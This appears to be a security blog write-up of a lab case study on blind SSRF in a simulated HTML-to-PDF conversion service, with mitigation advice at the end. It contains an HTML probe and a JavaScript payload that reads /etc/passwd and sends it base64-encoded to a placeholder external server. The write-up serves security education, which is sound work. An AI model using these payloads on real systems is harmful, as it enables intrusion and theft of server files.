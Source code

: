 ```yaml
---
title: "Exploring Blind SSRF Vulnerabilities in HTML to PDF Conversion Applications"
date: 2023-04-23
author: Your Name
---
```


## Overview

This post delves into a case study of a blind Server-Side Request Forgery (SSRF) vulnerability within a fictitious application designed for converting HTML documents to PDFs. The application, which is a simulated target in a controlled environment, highlights the subtlety and potential impact of SSRF vulnerabilities, especially when they do not provide direct feedback or error messages.

## Testing Environment and Setup

The target application listens on port 8080 and accepts HTML files for processing into PDF documents. Initial observations indicated that the server's response was identical regardless of the HTML content provided, suggesting no visible data processing errors or SSRF indications through the front-end.

## Conducting Blind SSRF Tests

To test for blind SSRF, we employed an external server setup to capture any outbound requests from the application. The test involved submitting an HTML file containing a reference to an image hosted on our external server:

```html
<!DOCTYPE html>
<html>
<body>
    <h1>Hello World!</h1>
    <img src="http://<EXTERNAL SERVICE IP>:9090/test-image">
</body>
</html>

## Observations and Results

Upon processing the HTML file, the application attempted to fetch the image from the specified URL, thus confirming the SSRF vulnerability. This behavior was indicative of the application performing unauthorized external interactions based on HTML content, a critical aspect for SSRF exploitation.

## JavaScript Exploitation and Data Exfiltration

Further exploration revealed that the application's PDF conversion tool allowed JavaScript execution within the HTML files. Leveraging this, we crafted a JavaScript snippet to read a sensitive local file and send its contents to our external server:

```html
<html>
<body>
    <script>
    var xhr = new XMLHttpRequest();
    xhr.open("GET", "file:///etc/passwd", true);
    xhr.onreadystatechange = function () {
        if (xhr.readyState === 4 && xhr.status === 200) {
            // Encode the file contents in base64
            var b64content = btoa(xhr.responseText);
            // Send the encoded data to the external server
            var exfil = new XMLHttpRequest();
            exfil.open("GET", "http://<EXTERNAL SERVICE IP>:9090/exfil?data=" + b64content, true);
            exfil.send();
        }
    };
    xhr.send();
    </script>
</body>
</html>

## Mitigation Strategies

To mitigate blind SSRF vulnerabilities, it is essential to:

- **Validate and sanitize all incoming data**, especially URLs and file paths, to prevent external resource references.
- **Implement strict allowlists** for outbound connections and protocols that the server can access.
- **Use secure programming practices** to disable unnecessary HTTP features that could be exploited via SSRF.
- **Regularly update and patch** third-party libraries and tools used for processing user-supplied content.

## Conclusion

Blind SSRF poses significant security risks, particularly in applications that process external input to interact with internal or external resources. Understanding and mitigating these vulnerabilities is crucial for securing web applications against potential attacks and data breaches. These strategies not only protect against SSRF but also reinforce the overall security posture of your digital infrastructure.
